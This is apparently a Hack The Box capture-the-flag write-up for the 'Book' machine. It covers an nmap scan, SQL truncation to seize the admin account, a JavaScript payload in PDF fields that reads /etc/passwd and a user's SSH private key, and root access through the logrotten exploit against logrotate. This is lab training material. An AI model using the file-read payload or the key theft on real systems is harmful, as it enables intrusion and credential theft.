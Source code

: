 
# Enum
### NMAP

As always, begin with nmap  

>nmap -sC -sV -T4 -p 22,80 10.10.10.176
>Starting Nmap 7.70 ( https://nmap.org ) at 2020-07-25 00:18 -03
>Nmap scan report for 10.10.10.176
>Host is up (0.19s latency).
>
>PORT   STATE SERVICE VERSION
>22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
>| ssh-hostkey: 
>|   2048 f7:fc:57:99:f6:82:e0:03:d6:03:bc:09:43:01:55:b7 (RSA)
>|   256 a3:e5:d1:74:c4:8a:e8:c8:52:c7:17:83:4a:54:31:bd (ECDSA)
>|_  256 e3:62:68:72:e2:c0:ae:46:67:3d:cb:46:bf:69:b9:6a (ED25519)
>80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
>| http-cookie-flags: 
>|   /: 
>|     PHPSESSID: 
>|_      httponly flag not set
>|_http-server-header: Apache/2.4.29 (Ubuntu)
>|_http-title: LIBRARY - Read | Learn | Have Fun
>Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel
>
>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
>Nmap done: 1 IP address (1 host up) scanned in 12.69 second  

Opening the port 80 I got this  
![book1](img/book1.png)

After register I found the admin  email: admin@book.htb  
![book2](img/book3.png)
At first I didn't know what to do with this  
Until I back to home page, look the source and find this  
![book3](img/book2.png)  

### SQL Truncation

Using *[SQL truncation](https://resources.infosecinstitute.com/sql-truncation-attack/)* with Burp Suite I tested "name" and "email" fields with more characters  

![book4](img/book4.png)  

Logged in with the credentials admin@book.htb qwerty  

![book5](img/book5.png)  

Using *[this](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html)* as reference I found a way in  
### Exploit

Loged as user again I uploaded a pdf with the fields "author" and "book title" filled with this script  
\*Missing tags  

x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();  

Downloading the pdf at http://10.10.10.176/admin/collections.php?type=collections I got the /etc/passwd  

![book6](img/book6.png)  

If I was runnin to get user blood next step would be "file:///home/reader/user.txt"  

Before get the id\_rsa from reader I tried root, perhaps....  

Now I know that there is a user called reader, I chnged the script part "///etc/passwd" to "/home/reader/.ssh/id\_rsa and uploaded a new pdf, downloaded it again and a got the id\_rsa from user reader  

Copy that to another file called id\_rsa and "chmod 600 id\_rsa"  

![book7](img/book7.png)  

Now just "ssh -i id\_rsa reader@10.10.10.176" and smile  

![book8](img/book8.png)
# Priv Esc

After a enumerte almost everything and don't find nothing  

I used [pspy](https://github.com/DominicBreuker/pspy.git) and find root process  
scp -i id\_rsa pspy64s reader@10.10.10.176  


pspy give me this process logrotate /usr/sbin/logrotate -f /root/log.cfg  

![book9](img/book9.png)

Search logrotate exploit in google and found [this](https://github.com/whotwagner/logrotten) on github  
Cloned the repository and uploaded it with scp command  
Unziped the archive and compiled the logrotten.c with gcc

gcc -o logrotten logrotten.c  

Created the payload  and executed logrotten

![book10](img/book10.png)  

Now just cat /tmp/id\_rsa to another file and ssh to root


![book11](img/book11.png)  
![book12](img/book12.png)  


